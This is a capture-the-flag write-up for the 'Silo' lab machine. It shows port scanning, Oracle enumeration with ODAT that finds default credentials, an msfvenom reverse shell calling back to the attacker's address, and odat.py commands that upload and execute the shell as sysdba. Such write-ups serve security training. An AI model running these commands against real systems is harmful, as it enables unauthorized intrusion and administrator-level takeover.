 # Silo

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.188 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 08:12 EDT
Warning: 10.129.95.188 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.95.188
Host is up (0.013s latency).
Not shown: 65350 closed tcp ports (conn-refused), 170 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1521/tcp  open  oracle
5985/tcp  open  wsman
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49159/tcp open  unknown
49160/tcp open  unknown
49161/tcp open  unknown
49162/tcp open  unknown
```

Lots of ports, including some I'm not familiar with like port 1521.

### Oracle RCE

I initially ran a few directory scans and SMB enumeration, but they all returned nothing interesting. So I decided to scan port 1521 in detail because I normally don't see that one.

```
$ sudo nmap -p 1521 -sC -sV -O -T4 10.129.95.188 
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 08:15 EDT
Nmap scan report for 10.129.95.188
Host is up (0.0073s latency).

PORT     STATE SERVICE    VERSION
1521/tcp open  oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
```

So this was an Oracle port. Based on Hacktricks, we can try using `odat.py` to attack this.

{% embed url="https://github.com/quentinhardy/odat" %}

We can run the enumeration to find all SIDs and possible passwords before attacking it.&#x20;

```
$ ./odat.py all -s 10.129.95.188 -p 1521 
<TRUNCATED OUTPUT>
[+] SIDs found on the 10.129.95.188:1521 server: XE
[+] Service Name(s) found on the 10.129.95.188:1521 server: XE,XEXDB
[+] Valid credentials found: scott/tiger. Continue...                  
```

We found the database and also some credentials, which I think is enough to exploit this system easily. With these, we can upload a reverse shell onto the server rather easily.&#x20;

First, we can create a reverse shell via `msfvenom`:

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f exe -o rev.exe
```

Then we can run the following commands:

{% code overflow="wrap" %}
```
$ ./odat.py utlfile -s 10.129.95.188 -d XE -U scott -P tiger --sysdba --putFile \\temp rev.exe rev.exe

[1] (10.129.95.188:1521): Put the rev.exe local file in the \temp folder like rev.exe on the 10.129.95.188 server
[+] The rev.exe file was created on the \temp directory on the 10.129.95.188 server like the rev.exe file

$ ./odat.py externaltable -s 10.129.95.188 -p 1521 -d XE -U scott -P tiger --sysdba --exec \\temp rev.exe         

[1] (10.129.95.188:1521): Execute the rev.exe command stored in the \temp path
```
{% endcode %}

We would gain a reverse shell as the administrator.&#x20;

<figure><img src="../../../.gitbook/assets/image (3685).png" alt=""><figcaption></figcaption></figure>
